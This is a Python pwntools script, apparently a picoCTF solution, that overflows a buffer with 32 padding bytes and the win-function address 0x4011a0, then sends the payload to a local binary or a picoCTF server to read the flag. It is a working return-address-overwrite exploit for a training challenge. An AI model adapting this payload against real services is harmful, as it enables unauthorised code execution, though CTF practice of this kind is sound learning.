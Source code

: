 ```python
def construct_payload(dist, win_addr, encode=False):
    payload = "A" * dist
    payload+=reverse_str(win_addr)
    if encode:
        return payload.encode().decode('unicode_escape').encode('latin1')
    return payload


def send_to_server(payload, conn: remote):
    conn.sendline(b'2')
    conn.sendline(payload)
    conn.sendline(b'4')
    response = conn.recvall()
    conn.close()
    return response.decode('utf-8', errors='ignore')

def get_flag(output):
    index = output.find("picoCTF{")
    result = output[index:]  # substring from pattern to end
    return result


def remote_server():
    win_addr = "4011a0"
    dist=32
    payload = construct_payload(dist, win_addr, True)
    host = 'mimas.picoctf.net'
    port = 59348
    conn = remote(host, port)
    server_output = send_to_server(payload, conn)
    print(get_flag(server_output))


def local():
    win_addr = "4011a0"
    dist=32
    payload = construct_payload(dist, win_addr, True)
    p=process("./chall")
    local_output = send_to_server(payload, p)
    print(get_flag(local_output))

def main():
    if(len(sys.argv) <=1):
        print("Please enter operation")
        sys.exit()
    operation=sys.argv[1]
    
    if operation == "local":
        local()
    elif operation == "remote":
        remote_server()
    else:
        print("Invalid operation")
main()
```

